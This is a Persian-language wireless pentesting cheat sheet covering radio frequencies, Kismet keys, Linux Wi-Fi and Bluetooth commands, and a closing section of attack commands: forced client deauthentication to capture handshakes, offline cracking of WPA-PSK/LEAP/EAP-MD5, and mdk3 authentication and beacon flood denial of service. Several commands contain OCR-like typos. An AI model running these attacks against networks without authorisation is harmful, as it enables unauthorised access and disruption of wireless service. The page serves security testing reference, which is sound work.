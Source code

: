 ```yaml
---
layout: default
published: true
---
```


# بی سیم

### نمودار فرکانس ها

<table>
  <thead>
    <tr>
      <th style="text-align:left"><b>تکنولوژی</b>
      </th>
      <th style="text-align:left"><b>فرکانس</b>
      </th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td style="text-align:left">RFID</td>
      <td style="text-align:left">
        <p>120-150 kHz (LF)</p>
        <p>13.56 MHz (HF)</p>
        <p>433 MHz (lJHF)</p>
      </td>
    </tr>
    <tr>
      <td style="text-align:left">Keyless Entry</td>
      <td style="text-align:left">
        <p>315 MHz (N. Am)</p>
        <p>433.92 MHz (Europe,Asia)</p>
      </td>
    </tr>
    <tr>
      <td style="text-align:left">Cellular (US)</td>
      <td style="text-align:left">
        <p>698-894 MHz</p>
        <p>1710-1755 MHz</p>
        <p>1850-1910 MHz</p>
        <p>2110-2155 MHz</p>
      </td>
    </tr>
    <tr>
      <td style="text-align:left">GPS</td>
      <td style="text-align:left">1227.60,1575.42 MHz</td>
    </tr>
    <tr>
      <td style="text-align:left">L Band</td>
      <td style="text-align:left">1-2 GHz</td>
    </tr>
    <tr>
      <td style="text-align:left">802.15.4 (ZigBee)</td>
      <td style="text-align:left">
        <p>868 MHz (Europe)</p>
        <p>915 MHz (lJS,Australia)</p>
      </td>
    </tr>
    <tr>
      <td style="text-align:left">802.15.1 (Bluetooth)</td>
      <td style="text-align:left">2.4-2.483.5 GHz</td>
    </tr>
    <tr>
      <td style="text-align:left">802.11 b/g</td>
      <td style="text-align:left">2.4 GHz</td>
    </tr>
    <tr>
      <td style="text-align:left">802.11a</td>
      <td style="text-align:left">5.0 GHz</td>
    </tr>
    <tr>
      <td style="text-align:left">802.11 n</td>
      <td style="text-align:left">2.4/5.0 GHZ</td>
    </tr>
    <tr>
      <td style="text-align:left">C Band</td>
      <td style="text-align:left">4-8 GHz</td>
    </tr>
    <tr>
      <td style="text-align:left">Ku Band</td>
      <td style="text-align:left">12-18 GHz</td>
    </tr>
    <tr>
      <td style="text-align:left">K Band</td>
      <td style="text-align:left">18-26.5 GHz</td>
    </tr>
    <tr>
      <td style="text-align:left">Ka Band</td>
      <td style="text-align:left">26.5-40 GHz</td>
    </tr>
  </tbody>
</table>### Fcc id lookup

```text
https://apps.fcc.gov/oetcf/eas/reports/GenericSearch.cfm
```

### پایگاه داده فرکانس ها

```text
http://www.radioreference.com/apps/db/
```

### منبع Kismet 

| **دستور** | **توضیح** |
| :--- | :--- |
| e | سرور های kismet |
| h | راهنما |
| z | نمایش تمام صفحه |
| n | شماره شبکه فعلی |
| m | حذف صدا |
| i | جزییات شبکه |
| t | تگ و یا حذف تگ شبکه |
| s | مرتبط سازی لیست شبکه |
| g | گروه بندی شبکه های تگ شده |
| l | نمایش سطوح قدرت کارت شبکه بی سیم |
| u | خذف گروه، گروه فعلی |
| d | نمایش تنظیمات قابل نمایش |
| c | نمایش کاربران شبکه فعلی |
| r | نمودار نرخ بسته ها |
| L | قفل نموده کانال در کانال انتخاب شده |
| a | نمایش آمار شبکه |
| H | بازگشت به کانال عادی |
| p | دریافت نوع بسته |
| +/- | Expand/collapse گروه ها |
| f | مرکز شبکه |
| CTRL+L | نمایش دوباره صفحه |
| w | ردیابی هشدار ها |
| Q | خروج از Kismet |
| X | بستن پنجره popup |

### دستورات wifi در لینوکس

| دستور | توضیح |
| :--- | :--- |
| iwconfig | تنظیمات interface ها |
| rfkill list | نمایش مشکل wifi |
| rfkill unblock all | روشن نموده wifi |
| airdump-ng mon0 | نظارت بر کلیه interface ها |

### وصل شده به شبکه نا امن

```text
iwconfig ath0 essid $SSID
ifconfig ath0 up
dhclient ath0
```

### اتصال به wep

```text
iwconfig ath0 essid $SSID key
ifconfig ath0 up
dhclient ath0
```

### اتصال به wpa-psk

```text
iwconfig ath0 essid $SSID
ifconfig ath0 up
wpa_supplicant -B -i ath0 -c wpa-psk.conf
dhclient ath0
```

### اتصال به wpa-enterprise

```text
iwconfig ath0 essid $SSID
ifconfig ath0 up
wpa supplicant -B -i ath0 -c wpa-ent.conf
dhclient ath0
```

## بلوتوث در لینوکس

<table>
  <thead>
    <tr>
      <th style="text-align:left"><b>دستور</b>
      </th>
      <th style="text-align:left"><b>توضیح</b>
      </th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td style="text-align:left">hciconfig hci0 up</td>
      <td style="text-align:left">روشن نموده interface بلوتوث</td>
    </tr>
    <tr>
      <td style="text-align:left">hcitool -i hci0 scan --flush --all</td>
      <td style="text-align:left">جست و جو دستگاه های دارای بلوتوث</td>
    </tr>
    <tr>
      <td style="text-align:left">sdptool browse BD_ADDR</td>
      <td style="text-align:left">لیست سرویس های باز</td>
    </tr>
    <tr>
      <td style="text-align:left">
        <p>hciconfig hci0 name &quot;NAME&quot; class Ox520204</p>
        <p>pi scan</p>
      </td>
      <td style="text-align:left">انتخاب به عنوان discoverable</td>
    </tr>
    <tr>
      <td style="text-align:left">pand -K</td>
      <td style="text-align:left">حذف جلسه pand</td>
    </tr>
  </tbody>
</table>

## تست شبکه های wifi در لینوکس

### آغاز monitor mode interface

```text
airmon-ng stop ath0
airmon-ng start wifi0
iwconfig ath0 channel $CH
```

### حمله Capture client handshake

```text
airdump-ng -c $CH --bssid $AP -w file athO    #Capture traffic
aireplay-ng -0 10 -a $AP -c $CH athO          #Force client de-auth


```

### حمله Brute force handshake

```text
aircrack-ng -w wordlist capture.cap    # WPA-PSK
asleep -r capture.cap -w dict.asleep   # LEAP
eapmd5pass -r capture.cap -w wordlist  # EAP-HDS



```

### حمله Dos

```text
mdk3    int    a -a $AP    #Auth Flood
mdk3    int    b -c $CH    #Beacon Flood
```
